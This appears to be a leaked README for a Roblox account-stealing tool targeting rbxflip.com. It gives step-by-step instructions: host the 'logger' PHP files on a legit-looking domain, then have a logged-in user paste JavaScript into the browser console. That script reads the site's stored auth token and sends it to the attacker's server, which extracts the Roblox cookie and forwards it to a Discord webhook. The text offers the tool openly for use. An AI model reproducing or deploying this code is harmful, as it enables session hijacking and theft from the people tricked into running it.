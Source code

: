 me and my friend made this ill leak it since ixware skids took my idea have fun with it.


1- Upload the files (from logger folder) on your webserver
2 -Get a legit looking domain
3 -Go to rbxflip.com (be logged in)
4 -Open the developer console
5 -Paste that inside the console: 
6. make sure tu put you're webhook on config.php

```var token = localStorage.getItem('auth._token.local');
await fetch("https://yourdomain.com/cl.php?t=" + token);```

6. The simple js code will get the value of auth._token.local (JWT Token) and then decoding (server-sided), after decoding it, it will read the "credentials" object which is the roblox cookie stored on rbxflip, then it sends the cookie to the discord webhook of your choice. Nothing special
